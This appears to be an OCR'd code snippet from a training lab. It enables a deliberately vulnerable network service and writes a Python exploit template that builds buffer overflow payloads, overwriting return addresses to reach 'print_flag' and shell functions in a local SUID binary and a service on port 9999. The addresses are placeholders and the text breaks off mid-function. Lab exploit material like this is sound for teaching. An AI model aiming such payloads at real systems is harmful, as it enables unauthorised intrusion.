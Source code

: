```bash
# Enable and start the service
sudo systemctl daemon-reload
sudo systemctl enable vuln-network.service
sudo systemctl start vuln-network.service

# Create exploit development directory
mkdir -p /home/$(whoami)/exploit_dev
cat << 'EOF' > /home/$(whoami)/exploit_dev/exploit_template.py
#!/usr/bin/env python3
import struct
import socket
import sys

def p32(value):
    """Pack 32-bit integer as little-endian"""
    return struct.pack('<I', value)

def exploit_local():
    """Exploit the local SUID binary"""
    # Buffer size is 64 bytes
    # Need to find offset to return address
    buffer_size = 64
    padding = b'A' * buffer_size
    
    # Address of print_flag function (update with actual address)
    # Get this from: ./vuln_service test
    print_flag_addr = 0x00000000  # UPDATE THIS
    
    payload = padding + b'B' * 12 + p32(print_flag_addr)
    
    print(f"[+] Payload length: {len(payload)}")
    print(f"[+] Payload: {payload}")
    
    return payload

def exploit_network(target_ip="127.0.0.1", target_port=9999):
    """Exploit the network service"""
    buffer_size = 256
    padding = b'A' * buffer_size
    
    # Address of shell function (get from server output)
    shell_addr = 0x00000000  # UPDATE THIS
    
    payload = padding + b'B' * 12 + p32(shell_addr)
    
    print(f"[+] Connecting to {target_ip}:{target_port}")
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target_ip, target_port))
    
    # Receive banner
    data = sock.recv(1024)
    print(f"[+] Received: {data.decode()}")
    
    # Send exploit payload
    print(f"[+] Sending payload...")
    sock.send(payload)
    
    # Check for shell
    sock.settimeout(2)
    try:
        response = sock.recv(1024)
        print(f"[+] Response: {response.decode()}")
    except:
```